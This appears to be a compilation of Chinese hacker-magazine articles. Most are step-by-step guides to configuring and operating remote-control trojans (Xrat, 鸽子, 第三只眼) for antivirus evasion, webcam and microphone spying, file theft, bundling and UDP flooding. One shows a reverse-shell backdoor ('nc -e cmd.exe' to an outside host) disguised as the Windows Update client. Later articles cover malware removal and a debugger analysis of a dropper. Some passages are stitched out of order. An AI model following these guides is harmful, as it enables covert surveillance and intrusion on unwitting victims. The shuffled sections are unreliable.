现在要使用远程控制木马，首先考虑的就是其隐藏性，不然的话即使不被杀毒软件查杀，也容易被冰刃等安全工具检测出来。所以今天我就给大家推荐一款在系统中可以表现得无色无味的木马Xrat，不仅可以躲过安全软件的检测，还可以突破杀毒软件的主动防御，实在是小菜玩黑必备的一件好装备啊！

#### 一、服务端配置操作

首先下载最新版本的Xrat木马，运行客户端程序，接着点击工具栏中的“配置”，在弹出的窗口中来配置服务端程序。Xrat木马的配置非常简单，在“IP/DNS”中设置服务端的连接地址，需要注意的是地址后面不要加上对应的端口，而在“IP/DNS”选项的下方，才是设置连接端口的地方，默认的连接端口为20090。接着在“备注”和“DLL名称”选项中来设置对应的服务端程序所需要的信息。由此也可以看出，服务端的主文件是一个DLL文件。再下面就是设置服务端程序启动所需的服务信息，包括服务名称、服务显示名称和服务描述等。配置完成后，就可以点击“生成”按钮，创建一个服务端程序了，如图1。

由于Xrat木马在编写的时候采用了Rootkit技术，因此可以躲过冰刃、Wsyscheck等各种常见安全工具的分析检测，这样就可以隐藏通信端口、隐藏注册表、隐藏服务以及隐藏内核模块等，而且新版本的Xrat木马加入了突破主动防御的能力。无论是常见的杀毒软件还是安全工具，服务端程序都可以轻易地突破它们的主动防御。就算是被360安全卫士监控到，即便用户选择了“拒绝”，服务端程序也同样可以上线成功。


图1

#### 二、木马的控制操作

我们将服务端程序上传到虚拟机中运行，可以发现服务端程序的运行比较缓慢，这可能和它需要突破主动防御有关。返回到Xrat木马的客户端程序中，点击工具栏中的“开始”按钮，这时Xrat木马就开始进行监听操作了。如果在前面修改了监听端口的话，也需要在监听选项里进行重新设置。当服务端程序连接成功后，通过上线列表就可以看到远程系统的相关信息，通过工具栏或者右键菜单中的命令，就可以进行对应的远程控制操作了，如图2。


##### 1、远程桌面操作

点击工具栏中的“屏幕”按钮，在弹出的窗口中就可以查看到远程电脑的屏幕。屏幕控制窗口当连接成功后，就开始自动获取远程屏幕的信息了。Xrat木马的刷新速度非常快，和最新版的黑洞远程控制差不多，默认使用的是8位色的图像。如果我们对捕捉的颜色效果不满意的话，可以在窗口标题栏上点击右键，在弹出的菜单中选择其它位的颜色图像即可，如图3。另外，Xrat木马默认只能对远程桌面进行查看，如果要想进行控制操作的话，选择右键菜单中的“控制远程主机”命令就可以了。


##### 2、媒体管理控制

点击工具栏中的“视频”按钮，就可以对远程系统中的视频设备进行监控了。打开视频监控窗口后，点击“安装编码器”，在弹出的菜单中选择编码器的安装方式。通过安装这个编码器，就可以将捕捉的信息进行编码而捕获了。点击窗口中的“开始捕获窗口”按钮，这时程序将判断远程系统是否安装有摄像头，如图4。如果远程系统连接有摄像头并且没有使用，那么木马就可以成功地将其激活并且开始获取远程的视频信息。通过编码列表、分辨率列表、图像列表等，可以对捕捉图像的相关信息进行设置，这样可以让获得的图像更加令人满意。除此之外，当选中“保存视频”按钮后，就可以将捕捉的视频保存为文件。

木马既然有视频的监控功能，那么自然也就会有音频的监控功能。点击工具栏中的“音频”按钮，在弹出的窗口中设置捕捉麦克风的音量大小，接着点击“开始监听”按钮，就可以听到远程系统连接的麦克风发出的声音。如果远程系统没有连接麦克风，可以选择窗口中的“捕捉声卡”选项，这样就可以捕捉到由系统声卡发出的信息了。


##### 3、远程磁盘管理

接下来我们看看Xrat木马的文件管理功能，点击工具栏中的“文件”命令，在弹出的窗口中就可以进行文件的操作了。Xrat木马的文件管理器采用了左右窗格的显示形式，左边显示的是本地磁盘信息，右边显示的是远程磁盘信息，如图5。这样不仅可以很方便地进行文件运行、新建目录、文件删除等操作，还可以通过鼠标拖拽的方式来进行文件的传输。当木马程序检测到磁盘中已有该文件时，还会询问用户是否进行文件的覆盖操作。如果遇到没有传输完成的文件，还可以进行文件的断点续传操作。文件的传输还支持多线程操作，这样就可以一次对多个文件进行操作了。点击窗口中的“搜索”命令，在弹出的窗口中输入想要搜索的名称，这样就可以在当前的窗口中进行文件的搜索操作了。

##### 4、远程系统管理

Xrat木马还可以进行其它的一些控制操作，点击工具栏中的“系统”命令，在弹出的窗口中可以进行窗口管理、进程管理、服务管理等操作。选择“窗口管理”，从列表中就可以看到窗口的序号、标题、类名等内容，其中绿色图标指的是可见窗口，红色图标指的则是不可见窗口，这一点通过“非隐藏窗口”列表也可以看出来。要想对这些窗口消息进行控制的话，只需要在窗口列表中点击右键，然后就可以进行隐藏窗口、显示窗口、关闭窗口等操作了，如图6。


##### 5、远程终端命令

最后再来选择工具栏中的“CMD”命令，这个是和Telnet非常类似的一个命令。该功能并不是通过调用远程系统的命令提示符来实现，而是通过连接远程系统的Telnet服务来进行操作的。我们可以在控制窗口中执行大量的网络终端命令，只是在执行本地控制命令的时候，有时会出现返回结果出错的问题，如图8。


选择“进程管理”，在窗口中就可以看到远程系统的进程信息了，软件的相关信息可以通过PID在窗口列表和进程列表中进行对比。通过左键选择想要结束的进程后，选择右键菜单中的“结束进程”命令，就可以关闭指定的进程以及对应的软件信息了。再来选择“服务管理”，这样我们就可以查看到远程系统的服务信息了，如图7。通过图标可以很方便地区分出服务类型，比如绿色是正在运行的服务，而红色是已经停止运行的服务信息。通过鼠标右键中的控制命令，就能进行停止服务、暂停服务、卸载服务等操作。除此之外，Xrat木马还可以自定义新的服务，在弹出的窗口中根据向导设置服务的名称和路径等信息即可。

#### 三、小结

通过对Xrat木马的使用介绍，可以看出该木马最大的特色，就是可以进行木马相关信息的隐藏以及成功突破杀毒软件的主动防御功能，毕竟它是一款Rootkit级的远程控制木马。至于Xrat木马本身的控制功能，并不能算多么丰富，但是进行基本的远程控制操作还是没有问题的。

（文中所涉及到的Xrat已收录到光盘中）

### 和我一起来体验超小的鸽子

EchoEye/侵其涛[B.B.E]

一直都是看着大家把自己的入侵工具拿出来分享，看得小菜我心痒不已，这次就把自己一直珍藏的、感觉特别实用并且容易上手的工具推荐给大家，希望大家能够喜欢。这款工具的全名叫做“鸽子集团1.37KB远程控制”，相信大家一听名字就能够知道，这个工具生成的服务端只有1.37KB，是不是非常小巧呀，这也正是它最大的特点！

#### 一、配置服务端

双击运行鸽子集团1.37KB远程控制程序，其界面如图1所示。我们选择“配置服务”中的“生成服务端”，就会弹出如图2所示的配置窗口，相信经常玩木马的“叉子”应该都知道该如何配置吧。这里由于是在本机测试，我填写的就是127.0.0.1，连接端口可以任意更改，我使用的是81，别忘了要把后面的星号加上哦。安装名称我们可以随便更改，名字起得越有迷惑性就越好。配置完毕后点击“生成”按钮，选择保存的目录就可以了，生成的服务端程序真的只有1.37KB哦，如图3。


#### 二、功能介绍

运行生成的木马，我们需要把控制端的监听端口改成和配置时的一样。选择“设置服务”里的“端口设置”，由于当时配置的时候我们选择的是81，所以这里就需要更改为81，设置完毕提交后，就会发现已经上线了。

在“其他功能”里，主要有三个选项：“加强功能”“上传执行”“卸载服务”，如图4。“上传执行”顾名思义就是上传执行一个程序，我们可以上传自己的入侵工具，或者其它后门之类的东西，传输的速度还是相当快的。至于“卸载服务”，不用我介绍相信大家就应该知道是做什么的吧。

我主要介绍一下“加强功能”。当我们的肉鸡上线后，选择上线的肉鸡，再点击“加强功能”，这时候就会发现msx.dll文件被自动上传到了肉鸡上，随后很多功能都被显示了出来。我们在肉鸡上点鼠标右键，选择“连接控制”，就会弹出如图5所示的窗口，其中IP地址、SYSTEM目录、计算机名称以及已经启动的时间等信息全都显示了出来，可以说是非常全面。

再点击其中的“文件”选项，这时就可以管理肉鸡上的文件了，如图6，可以进行删除、复制、重命名等操作。而在“进程管理”中，我们可以看到肉鸡正在运行的程序，如图7，可以在相应的进程上点右键，然后选择“杀死进程”，就可以把进程给结束掉了。在“系统服务”中我们可以查看肉鸡启动了哪些服务，同时还可以进行“启动”“禁止”和“删除”服务的操作。在最后一栏的“注册表”中，所对应的就是关于注册表的操作了，具体的就请“鸽友”们自己去发掘吧！


接下来再介绍一下“媒体控制”功能。打开后，我们点击“捕捉”，就可以捕捉到肉鸡当前的画面了，如图8。不过遗憾的是我们抓取到的只是图片而不是连续的画面，不过想想服务端才那么大，功能自然会少些，毕竟鱼和熊掌不可兼得嘛！这里的另外一个功能就是摄像头了，由于我的电脑上没有安装摄像头就不给大家演示了。


在“其他功能”里，还有一个“备注”功能，我们可以为那些特别的肉鸡加上点记号，以让自己能够更容易地辨认它们。备注完成后我们在标题栏处点右键，并选择“代号”，然后点击“刷新服务”，就可以看到刚才添加的备注信息了，如图9。但令人遗憾的是，其中的“加载脚本”选项似乎还不能使用，希望作者在以后的版本中能够继续添加。

#### 三、总结

到此为止，全部功能就介绍完毕了，相信大家都已经学会如何使用了吧！可能有些叉子会认为这么少功能的木马没多大用处，其实有很多地方都可以用到这种木马的，比如说捆绑。我们如果把一个几MB的木马和一个正常文件捆绑在一起，那么加在一起的体积会增大多少呀，这样不就很容易被别人发现吗？另外，对于挂马来讲，如果我们使用比较小的木马去挂马，那么当用户中马时由于木马比较小，自然也就不会觉得太卡，这样也就不容易被察觉了；而且我们也完全可以通过这种小马保持着对肉鸡的控制，在必要的时候还可以上传一个功能更全的远程控制软件，这样岂不是更加安全方便吗？


（文章中涉及到的鸽子集团1.37KB远程控制程序，已经收录在了光盘中）

## Update后门之反弹cmdshell

swan


使用NC来反弹cmdshell需要频繁地调用这个程序，当然我们可以选择使用vbs脚本来调用。虽然这样可以自己控制频率，也就是多少时间执行一次连接，但必须要考虑到脚本的自启动问题以及进程中会出现可疑的进程名（比如wscript.exe）。使用AT命令以及屏幕保护来调用程序是个不错的思路，其本质就是利用系统中存在的拥有在指定时间调用特定程序的功能来加以利用。当然举一反三，系统中还拥有类似于计划任务、屏幕保护这样的东西。

让系统调用一个程序，有一种情况就是环境变化导致的调用。举个例子来说，比如磁盘不足的时候，系统就会自动运行磁盘清理工具。假如我们把这个磁盘工具的文件替换成我们的后门程序，那么系统就会安装一个“定时炸弹”。再深入思考，我们可以这么想：替换一个有可能被调用的程序，就可以被动地运行了。而针对常用的第三方软件，就有QQ的升级文件，还有Qzone.exe等等。从上面的介绍中，我们可以知道调用程序有些是人为被动……## 战马记

调用的，以及环境变化而产生的调用。QQ一旦有补丁，就会自动调用升级程序，替换它就可以，但调用的不够频繁，对于我们的NC反弹cmdshell来讲，自然是调用越频繁越好，但太频繁也不好，因为那样一来，在进程中就会经常出现NC.exe，管理员不发现异常才怪呢！那么要如何才能解决这个矛盾呢？这就要感谢我们的微软了，时常会发布补丁，另外就是Windows系统中还有个自动更新服务，这个调用的频率足以满足我的要求。

我们选择“开始”→“设置”→“控制面板”，选择“自动更新”，其界面如图1所示。看到这里的时间，你想到了什么吗？我可是想到了屏幕保护的时间设置，其实这些也就是我们调用的时间频率设置，呵呵，很好，很强大！第一个选项就是选择我们在什么时间调用，比如我是在晚上23:00调用的。下一个就是频繁调用了，这个更强大，我使用PCshare进行测试，卸载后马上又调用了，如图2。


```bat
@echo off
@nc -e cmd.exe swan710.3322.org 8000   :: 事先把NC放好的 C:\WINDOWS\system32 目录下
@exit  :: 避免任务进程多出很多次CMD.exe
```

把批处理文件弄成EXE文件，命名为wuauclt.exe并进行替换就行了。


最后，我们再更新一下动态域名，然后在本地C盘使用NC来监听8000端口，命令为“nc -v -l -p 8000”，如图5。等到微软补丁一发布，肉鸡的自动更新就会自动调用程序并连接到我们的电脑，如图6。


最关键的是，当系统检测到有新的补丁，就会自动地通知我们，大家经常会看到的如图3所示的界面吧，那留意过任务管理器中的进程名没有？我告诉大家吧，它调用的就是位于C:\WINDOWS\system32目录下的wuauclt.exe文件。找到那个文件，把它替换掉就可以了，为了成功替换，我们必须先到服务列表中把显示名为“Cryptographic Services”的服务停止掉才行，如图4。

接下来的事情，相信大家都已经知道了吧，只要利用批处理潜行者把如下内容：……（文章中涉及到的nc.exe、批处理潜行者，已经收录在了光盘中）

假如我们选择的是连续调用的话，当管理员使用360等更新补丁后，我们的程序就不调用了，这样又使得我们的后门可以成为一个隐形的“炸弹”，这样也好，我们就等着微软出补丁吧！这样的频率还可以吧！

### 招黑客人才库大区

黑客X档案作为目前国内发行量最大的网络安全/电脑黑客杂志，自2002年创立以来，在风风雨雨中已经走过了七个年头，为了更好的发展，为了更好的为大家服务，现决定面向我们广大的作者和读者招聘“黑”人，具体条件如下：

- 1、热爱网络安全/电脑黑客技术，热爱黑客X档案。
- 2、有团队合作精神，对于自己的工作能够认真、细致地完成。
- 3、熟悉当前主流黑客入侵方法，熟练使用常见黑客工具。
- 4、熟悉网站架设、网站制作以及网站的维护管理。
- 5、待遇面议。

希望加入X大家庭的有志之士，可以将自己的简历或是自己的特写发送邮箱hackerxfiles@263.net，也可以拨打010-88561165咨询。


### 用“第三只眼”来远程控制

天涯衰草

看过《西游记》的朋友都知道，二郎神的第三只眼可是非常了得，不仅能够辨别真假还能进行攻击，倘若互联网里面也有一个“第三只眼”，那么又会出现一个什么样的结果呢？前两天，我就从网上无意间发现了一款名为“第三只眼”的远控木马，这款木马程序到底怎么样呢，今天我们就来好好地测试一下。

在本地电脑中运行生成的服务端程序，很快服务端就连接客户端上线了，通过上线列表我们可以了解到远程系统的信息，包括IP地址、系统名称、操作系统、备注等，通过点击工具栏中的功能按钮以及右键菜单中的控制命令，就可以进行相应的远程控制操作了，如图3。

#### 一、配置服务端程序

下载全新版本的“第三只眼”远控木马，解压后运行文件夹中的客户端程序，这时程序就会自动弹出一个窗口，要求我们设置客户端的监听端口，默认监听的端口是2009，如图1。监听端口设置完成后，就可以点击“确定”按钮进入到操作界面了。


图1

从操作界面可以看到，“第三只眼”远控程序的布置有些与众不同，点击客户端程序左侧工具栏中的“配置”命令，就可以在弹出的窗口中进行配置操作了。“第三只眼”远控木马的配置非常简单，首先在“域名”和“端口”中设置服务端程序的连接信息，接着设置服务端程序的工作模式，也就是服务端程序的隐藏方式，程序默认将服务端插入到IE浏览器的进程中。接下来设置服务端程序用于启动的服务信息，包括服务名称、服务描述、服务显示等，如图2，配置完成后，就可以点击“生成”按钮来创建一个服务端程序了。


图2

#### 二、服务端控制操作


图3

##### 1、文件管理

点击工具栏中的“文件”按钮，通过它就可以对远程系统中的文件进行管理了，“第三只眼”远控木马的文件管理窗口非常简单，打开后就可以看到远程磁盘列表，选择想要管理的文件或文件夹，然后点击鼠标右键，通过右键菜单中的命令就可以进行打开、删除、重命名、下载等操作了，如图4。如果是要进行文件上传的话，选择相应的文件后通过鼠标直接拖动就可以完成了，文件传输采用了自动断点传输模式，从窗口的状态栏里就可以看到传输的进度。


图4

##### 2、屏幕控制

点击左侧工具栏中的“屏幕”按钮，通过它我们可以查看远程用户的屏幕操作信息。当监控窗口弹出以后，选择“开始获取”就可以自动获取最新的桌面信息了，这时屏幕会连续不断地捕获对方屏幕，速度非常快，通过标题栏就可以了解到捕捉的进度。“第三只眼”远控木马默认的效果是8位色，如果对捕捉的效果感到不满意的话，可以通过颜色列表进行选择，如图5。

点击窗口工具栏中的“获取单张图片”按钮，木马就可以将捕捉到的内容保存为图片了，但是不能保存为连贯的视频图像信息。另外，选择工具栏中的“控制屏幕”命令，就可以对远程桌面进行实际的控制了，就好像通过远程桌面进行操作一样。


图5

##### 3、终端命令

接下来点击左侧工具栏中的“终端”，其实这就是一个类似于Telnet的控制命令，我们点击它后就可以调用远程系统中的命令提示符，并可以在里边执行很多的系统命令和终端命令。另外，“第三只眼”远控木马还能对命令返回的信息进行保存呢，如图6。不过由于操作系统本身特性的原因，该命令在服务端为Windows 9x的情况下将无法正常操作，不过好在目前使用Windows 9x系统的用户已经寥寥无几了。


图6

### 4、其它功能

点击工具栏中的“进程”按钮，在弹出的窗口中点击“刷新进程”命令，就可以查看远程计算机中的系统进程情况了；正常的进程信息使用蓝色图标显示，隐藏的进程信息使用红色图标进行显示。通过鼠标左键选择要结束的进程信息后，点击窗口下方的“结束进程”命令就可以关闭指定的进程了，如图7。另外，点击左侧工具栏中的“视频”按钮，就可以通过该功能对远程计算机中是否安装有USB摄像头进行判断，如果已经安装并在摄像头没有进行使用的情况下，木马就可以成功地将其打开并通过它来获取远程图像资料了。


图7

##### 5、集群管理

在上线主机的列表上点右键，通过右键菜单中的命令就可以进行大量的集群管理操作，比如在“筛选主机”命令中，可以通过进程和窗口两种方式来进行筛选。例如要查看远程用户中有谁在使用QQ，就可以选择“根据进程筛选”命令，在弹出的窗口中填写“QQ.exe”，在“符合条件主机”列表中就会出现刷新后的主机列表，如图8。除此之外，还可以进行远程的网络攻击操作，选择“网络攻击”菜单中的“开始攻击”命令，在弹出的窗口中输入想要攻击的域名、端口以及攻击线程数目和攻击事件等信息，然后点击窗口中的“确定”按钮，就可以进行UDP洪水攻击操作了，如图9。


图8


图9

#### 三、小结

通过上面对木马的演示和操作，我们已经了解了“第三只眼”远控木马的基本功能。可以看到，该木马只包括了基本的远程控制操作，当然这已经可以满足普通用户的控制需求了。不过软件的集群控制功能却非常强大，不但可以进行网络攻击、主机筛选，还可以进行文件下载安装等操作，因此如果我们存在大量肉鸡的话，倒是可以考虑通过“第三只眼”远控木马来进行控制。

（文章中涉及到的“第三只眼”远控木马已经收录在了光盘中）

### 一口吃掉“鬼脸嘟嘟”

♂一痕♀


前几天我把U盘借给朋友拷东西，后来发现U盘中除了我制作的免疫文件夹外，其余文件都感染了病毒。朋友电脑装有360和瑞星，病毒库也较新，却依然无法清除该病毒。

我尝试使用冰刃进行处理，并结合Wsyscheck检查可疑进程（如kiss.exe、kissme.exe），逐步定位其内核HOOK与相关异常。


文中说明了SSDT中“代码异常”与Inline Hook、地址Hook的关系，并介绍了“恢复当前函数代码”“恢复当前函数地址”“恢复所有函数”等修复策略。


作者建议使用更底层的进程管理工具（如PrcMgr）观察系统进程，指出系统自带任务管理器可能被病毒伪装或限制。


继续分析后发现可疑驱动与进程保护行为；结束相关进程会弹出“不能结束进程”的提示，表明病毒具备自我保护机制。


一定要先恢复SSDT，再做注册表删除等操作。接着选择“系统模块”，查看“服务项名”，发现有4个奇怪的服务……先选中一个，点击“转到服务列表”，再单击“设为禁用”，如图8、图9。再到“服务管理”项，分别选择那4个服务并删除对应注册表项，如图10、图11。最后在“活动文件”中选择userinit.exe后单击“修复所选项”。


在“文件管理”中，找到“D:\Program Files\Tencent\QQ\QQGame\...”路径里面的文件（如图12），这是病毒的原文件，但该文件夹被保护。普通删除不行，可使用Wsyscheck删除（如图13）。之后重启电脑，在Wsyscheck“工具”下选择“修复隐藏文件显示”（如图14），恢复被隐藏的文件夹。针对这类隐藏文件夹感染的情况，可使用恢复批处理文件处理（如图15）。


### 暴风流氓这样除！

辛晓东

以通过各种视频格式而闻名的暴风影音，在占据市场主地位后，逐渐向“流氓”队伍看齐。暴风影音在XP系统中安装运行后会随系统启动一个名为stormliv.exe的进程，据说其作用是监测是否有升级版本。这个“暴风影音媒体控制中心”对XP用户其实是个负担，且高峰内存使用可达80MB以上，因此可以清除掉它。

先按Ctrl+Shift+Esc调出“Windows任务管理器”，在“进程”中找到stormliv.exe，右键选择“结束进程”停止运行。


但由于调用这个进程的用户是最高权限的SYSTEM用户，所以下次开机后它还依然会出现。

在“开始”－“运行”栏中输入“msconfig”来调出“系统配置实用程序”，在“启动”项中竟然找不到这个stormliv.exe进程，如图1。看来真是有些诡异了。既然这儿没有，那就有可能已经被注册为系统服务了，单击左边的“服务”项，还真有，这个服务名为“Control Center of Storm Media”，制造商是“北京暴风网际科技有限公司”，如图2，其状态是“正在运行”。用鼠标单击取消其前面的对勾后再单击一下“应用”按钮，最后点击“确定”按钮重新启动XP系统试试，进程中已经不见了stormliv.exe，终于告别了暴风流氓。

## 遇上“神武”那家伙——

heiben

最近对病毒来了很大的兴趣，便不知从哪里下载了一个叫做“神武”的东西，其界面如图1所示。看上去似乎功能挺强大的，我决定看看这个东西到底有多厉害！


图1

#### 一、开始备战

我用它生成了一个服务端程序（没有启用它的扩展功能），注入选择是IExplorer。我电脑中安装的防火墙是COMODO Firewall Pro，还安装了还原精灵6.1（最初我以为它可以穿透还原精灵，谁知道却不可以，多此一举了）以及其它一些常用的安全软件。

#### 二、被病毒耍了

将所有的安全软件：监控的、查杀的、拦截的，全都开启，然后双击运行服务端程序，360安全卫士马上就提示说系统的时间被修改了，变成了1983年10月19日星期三，而且还更改不回来。不仅如此，我使用其它的安全工具也没有发现任何异常情况。正当我打开D:\Program Files的时候，Explorer.exe突然被结束了，就连冰刃也假死了，任务管理器也打不开了。郁闷的我连大气也不敢透，本以为自己很聪明，结果还是被病毒给耍了，连个文件的影子也没有找到。如果换成是卡巴或瑞星的话，结果也肯定是必死无疑的。还好我还没有选择扩展功能，如果把“全盘EXE、COM文件感染”也勾上的话，恐怕情况还会更糟糕。幸亏我在电脑中安装了还原精灵，不然的话，恢复起来可就麻烦了。


图2

#### 三、第二次应战

经过了上次的教训，它的智能性让我也有些害怕了，因此这一回我就变得谨慎多了，先把网线给拔了出来，因为我的目的不是监控它的下载，然后又将组策略的更改系统时间也给锁定了，如图2。不仅如此，我连360安全卫士系统时间防改工具也安装上了，如图3。还用上了“进程防杀”工具，以防止Explorer.exe再一次被中止，如图4。


图3


图4

觉得现在不会再出什么问题了，于是就再次运行了那个病毒。不知道为什么，IE浏览器弹了出来，金山网盾也显示升级完毕，而且连我的QQ医生和希网客户端也弹出来了。幸运的是，我在运行前就使用regsnap制作了一个镜像，而在运行病毒后又制作了一个镜像，把文件对比一下，结果让我发现了一些线索，如图5。真是太可怕了，连360最新的更新日期也给更改了，金山网盾的最新更新时间也给改成1983年了，怪不得金山网盾会显示已经更新完毕，这只是病毒的小手段而已（如果大家对过360的免杀有兴趣的话，也可以查看我保存下来的“对比结果.html”文件）。不过令我庆幸的是，没有发现其它什么东西，第二次追踪就这样又给狡猾的病毒逃过了。


### 四、第三次的剿杀

这一次，我决定不安装360安全卫士系统时间防改工具，也不设置组策略，当然也不运行QQ医生和SREng，只是制作了一次镜像。我打开了下载者监视器，果然，监视器起了效果，如图6、图7、图8所示，病毒一共下载了五次，分别是svch0st.exe、svch0st1.exe、svch0st2.exe、svch0st3.exe和svch0st4.exe……


下载者监视器的拦截已经让我很满意了，唯一的遗憾就是应该将“扩展功能”中的感染也选上。记得有一次不小心运行了，就像熊猫烧香那样，全部的可执行文件都变成了白色框框。对我来说，本文最值得小菜学习的地方应该就是通过注册表的修改来过360了……（文中涉及到的COMODO Firewall Pro防火墙、360安全卫士系统时间防改工具、regsnap、下载者监视器及对比结果.html，已经收录在了光盘中）

### 外挂中的暗箭

相信有许多朋友都在玩QQ炫舞这款游戏吧？在游戏中，随着等级的升高，任务的难度也会越来越大……于是乎，外挂就成了大家心照不宣的秘密。随着需求量的飙升，一些人在制作或破解外挂的过程中就开始动起了歪脑筋……

话说我的一位同学某日下载了一个名为“完美”的外挂，结果刚一运行计算机就中毒了，最后只得动用一键还原精灵。好奇之余我就向他要来了样本，开始了这次测试。

禁用掉NOD32的实时监控后运行外挂程序，系统一下子慢了下来，后台360和NOD32的图标都不见了，弹出了一个窗口提示某个文件错误，如图1。毫无疑问，中病毒了，先使用360安全卫士试试，但遗憾的是360根本就打不开。打开注册表，在“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options”下，我果然发现了“猫腻”，如图2。

雪儿


将“Image File Execution Options”项删除后，360就可以正常打开了，但还没录上10秒钟，就再次被关闭了。肯定是病毒进程在作怪，可是使用冰刃查看了半天，也没有发现可疑进程。看来，只能另寻他径了。360的主文件是360safe.exe，转到360所在的文件夹，无论是将其改名还是复制都被拒绝，那该怎么办呢？我们直接复制整个360所在的文件夹好了，这回成功了。进去后，将360safe.exe改名为a.com，然后运行，熟悉的界面终于又出来了，而且也不会再被关闭了。接着点击“查杀流行木马”选项，查杀病毒吧，如图3。

重启计算机后，360和NOD32的后台图标又回来了，本以为这样就结束了，但事实上却远远还没完。启动NOD32对系统进行彻底的查杀，结果很快就感觉到了不对劲的地方：病毒是越杀越多！糟了，看来这回是遇到了感染型的病毒，如图4。

能不能尝试还原被感染的文件呢？我们从NOD32的隔离区随便复制出2个文件进行测试，我选择的是bugreport.exe（百度Hi的错误汇报程序）和ProxyThorn.exe（花刺代理软件）。使用PEiD查壳，发现是未知壳，但它们的区段名却是相同的，不用说，肯定是病毒的杰作了。一般来说，感染型病毒都是通过附加数据插入正常文件的，但这个病毒却有点特殊，因为使用PEiD的Overlay插件没有检测出附加数据，如图5。

我硬着头皮使用OD载入带毒的花刺，按F8单步跟进，发现右面的“ESP 0012FFC0”一项变红，应用ESP定律，在下面的命令框中输入“hr 0012FFC0”，再按F9，使程序运行，如图6。

接下来一直按F8单步走，直到0047605E，发现这是一个向上的跳转，按照经典手动脱壳教程的思路是在下一行，即00476060处按F4跟进，但这样的话程序就跑飞了。我们观察一下代码，下一行00476063似乎是一个很大的跳转，跳到哪里去……呢？选中这一行按回车，发现来到了00476182，看代码，似乎又是一个很大的跳转，接着再按回车，大家看到了什么？对，这就是传说中的OEP，如图7！还等什么，转储吧，如图8。

接着使用NOD32扫描脱壳后的文件，已经不报病毒了。打开试试，花刺代理能正常运行。至此，对这个病毒的剥牙战就基本结束了，但损失也挺惨重的，暗组黑客工具包中几乎一半的工具都被感染，炫耀也没法玩，只能去重做系统了。所以，以后大家在测试病毒的时候请尽量在虚拟机中进行。另外，也请不要过分迷信所谓的“经典教程”，毕竟，灵活变通才是解决问题的关键！

（本文所涉及到的OD、PEiD、冰刃已收录到光盘中）

### 小菜进阶之病毒剖析——Faust

俗话说得好：常在江湖飘，哪能不挨刀！小菜们在网上冲浪的时候难免会中招的，中了病毒或木马后，大多数人的处理方法都是拿出杀毒软件，对全盘进行一轮狂轰滥炸，揪出病毒后一律毫不留情地置之死地。其实在抓到病毒后不一定立刻杀掉，将病毒提取出来进行调试分析，弄清楚病毒的运行机理也未尝不是一件快事！正如一个让你深恶痛绝的仇人被你逮住后，对其慢慢折磨岂不比直接了断他更要来得舒坦（某小菜：你……你太邪恶了，简直是有些心理BT！），好了，废话不说了，本文我就对一个简单的病毒进行分析。

在拿到病毒样本后首先用PEiD查壳，发现没有加壳，程序是使用Microsoft Visual C++ 6.0编写的，如图1。没有加壳这对于我们广大小菜来说是件好事，毕竟脱壳也是一件很累人的活儿，有时一些强壳还会把你玩得晕头转向。

```asm
21231271  |. 8D85 8CFEFFFF    lea eax, dword ptr [ebp-174]
21231277  |. 68 04010000      push 104        ; /BufSize = 104 (260.)
2123127C  |. 50               push eax        ; |Buffer
2123127D  |. FF15 20102321    call dword ptr [<&KERNEL32.GetWindowsDirectoryA>]
21231283  |. E8 AFFF FFFF     call 21231237
21231288  |. 8D85 8CFEFFFF    lea eax, dword ptr [ebp-174]
2123128E  |. 68 C8102321      push 212310C8   ; /\msacm32.drv
21231293  |. 50               push eax        ; |dest
21231294  |. E8 25010000      call <jmp.&MSVCRT.strcat>
:strcat
```

既然没有加壳，那我们就直接使用OD载入程序。一般来说，我的习惯是先查看ASCII码，看有什么有用的信息，这跟软件破解的步骤是一样的。通过查看ASCII码，我们发现了如图2所示的信息。

其中\msacm32.drv和explorer这两处地方比较可疑，双击\msacm32.drv跟随进去，发现了如下的代码：

在0x2123127D这个位置调用的API函数是GetWindowsDirectoryA，这个函数的作用是获取Windows目录的路径名。继续往下查看，发现了如下的代码——创建了一个虚拟桌面。

```asm
212312AC  |. 56            push esi          ; /pSecurity
212312AD  |. 6A 01         push 1            ; |bDesiredAccess = DESKTOP_READOBJECTS
212312AF  |. 56            push esi          ; |fInteraction
212312B0  |. 56            push esi          ; |pDevmode
212312B1  |. BF BC102321   mov edi, 212310BC ; |virtual
212312B6  |. 56            push esi          ; |Device
```

```asm
... Virtual ...
... CreateDesktopA ...
```

```asm
... SetHandleCount ...
... CreateFileA ...
```

这个的作用是什么呢？现在还不得而知。继续向下研究，发现病毒创建了explorer进程：

```asm
... CreateProcessA ...
... explorer ...
```

联系上面的代码就可以初步猜测到病毒是创建了虚拟桌面，然后在虚拟桌面启动explorer进程。目前从ASCII码里得到的信息大致就是这么多了，可我们还是不知道病毒的主要作用是什么。现在开始调试程序，调试的时候可以慢慢地单步仔细进行分析，可是这种方法太累人。我是个懒人，所以直接使用下断点的方法进行调试。

有读者可能要问了：你是怎么知道在哪里下断点的呢？我的方法是通过对函数下断，在OD里点击右键，选择“查找”——“当前模块的名称”，就可以查看调用的函数了，如图3。

| 地址 | 区段 | 导入 | 函数 |
|---|---|---|---|
| 21231068 | .text | 输入 | MSVCRT._acmdln |
| ... | ... | ... | KERNEL32.CreateProcessA |
| ... | ... | ... | KERNEL32.ExitProcess |
| ... | ... | ... | USER32.GetMessageA |
| ... | ... | ... | KERNEL32.FindResourceA |

图4  
图3

这里我发现FindResourceA这个函数非常可疑，点击右键选择“在每个参考上设置断点”，然后按F9运行程序，如图4。程序被断在了0x21231342处。

此时的整个流程就很明显了：首先是查找资源，然后提取资源释放到系统目录，释放出来的文件是msacm32.drv。继续单步就可以看到病毒已经往释放出来的文件写入内容了：

```asm
... FindResource / SizeofResource / LoadResource ...
```

```asm
... WriteFile ...
... nNumberOfBytesToWrite ...
```

单步跳出这个子程序就来到了之前创建虚拟桌面的地方，继续单步就看到了进程退出代码。实际上这个病毒最后还会有个毁尸灭迹的行为，再次查看当前模块，可以看到一个函数WinExec。这个函数的作用就是运行指定的程序，重新加载程序后对这个函数下断，按F9运行后观察附近的代码：

```asm
... BufSize => 104 ...
... PathBuffer ...
... hModule => NULL ...
```

```asm
212311BD  call dword ptr [<&KERNEL32.GetModuleFileNameA>]
212311C3  test eax,eax
212311C5  je short 21231230
...
21231223  call dword ptr [<&KERNEL32.WinExec>]
2123122A  call dword ptr [<&KERNEL32.ExitProcess>]
```

